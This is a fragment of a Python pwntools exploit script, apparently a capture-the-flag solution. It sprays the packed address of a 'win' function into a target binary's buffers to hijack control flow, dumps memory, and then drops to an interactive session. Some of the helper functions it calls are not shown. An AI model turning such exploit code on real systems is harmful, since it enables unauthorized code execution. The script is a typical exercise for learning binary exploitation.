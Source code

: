 ```
	
	sid = str(id)
	io.sendline(sid)

	buf = io.recvuntil("------------------")
	buf = buf.replace("------------------", "")
	buf2 = header(sid+" BEG") + "\n" + buf + header(sid+" FIN") + "\n"
	return buf2

def io_q(io):
	io.sendline("q")
	io.recvuntil("Goodbye!")
	return 1

def io_pill(io, min, max):
	buf = ""
	for i in range(max-min+1):
		k = i+min
		buf += io_d(io, k)
		
	return buf

def io_fill(io, min, max):
	# win	08048B7C	
	win = str(p32(0x08048B7C))
	
	c = cyclic(1024, alphabet="0123456789")
	
	for i in range(max-min+1):
		k = i+min
		buf = win*1000 #c[k*8 : (k+1)*8]
		io_a(io, i, buf)

io = io_beg()
io_fill(io, 0, 8)
print(io_pill(io, 0, 9))
print(header("Phrase 2"))
io_b(io, 5)
print(io_pill(io, 0, 9))


io.interactive()

```


